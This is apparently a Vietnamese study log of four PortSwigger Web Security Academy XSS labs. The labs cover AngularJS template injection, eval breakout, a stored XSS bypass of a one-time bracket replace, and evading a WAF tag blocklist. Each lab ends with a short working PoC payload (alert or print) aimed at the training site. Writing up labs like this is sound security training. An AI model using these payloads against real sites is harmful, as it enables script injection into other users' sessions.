### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

- Kiểm tra phiên bản trang web.
    - AngularJS 1.7.7 -> Thử 1 chút research XSS vuln cho phiên bản này

    

- Prompt AI 1 chút để lấy payload. Thử lần lượt các payload trả về 

    

- Thành công alert ở payload thứ 2. Và thế là solve 

    

    

- PoC

    ```xml
    /?search=%7B%7Bconstructor.constructor%28%27alert%281%29%27%29%28%29%7D%7D
    ```

### Lab: Reflected DOM XSS

- Lỗ hổng Reflected DOM-based XSS trong hàm eval()

    

    - Giờ tạo payload để nó chạy lệnh eval. Nó sẽ trông như này
    ```js
    var searchResultsObj = { "searchTerm": "\"-alert(1)}//", "results": [] };
    ```
    - Hay tương đương với
    ```js
    var searchResultsObj = {"searchTerm":""-alert(1)}//","results":[]};
    ```

- Thành công alert

    

- PoC

    ```
    /?search=%5C"-alert%281%29%7D%2F%2F
    ```

### Lab: Stored DOM XSS

- Hàm này chỉ thay 1 lần cặp dấu `<>` 

    

    - Thử tạo thêm 1 cặp `<>` để bypass nó. Trông sẽ như này
    ```js
    <>
    ```
    - Sau khi replace, nó sẽ thành như này
    ```js
    &lt;>
    ```

- Thành công alert 

    

- Solve

    

- Poc

    ```js
    <>
    ```

### Lab: Reflected XSS into HTML context with most tags and attributes blocked

- Thử 1 số payload thì bị chặn bởi WAF

    

    - Tuy nhiên, `<>` lại không bị chặn -> WAF chỉ chặn các từ có trong blacklist như alert ...

    

- Thử brute force các thẻ bằng [tags.txt](tags.txt)

    - Hầu hết các thẻ đều bị WAF chặn, trừ `body`, `custom tags`

    

- Tiếp tục thử với các events hợp lệ -> `onresize` khả dụng cho payload để mở máy in `print()` 

    


- Gửi payload tới server

    

    - Solve

    

- PoC

    ```js
    <iframe src="https://0af300d50423837481e4b137001c0014.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
    ```


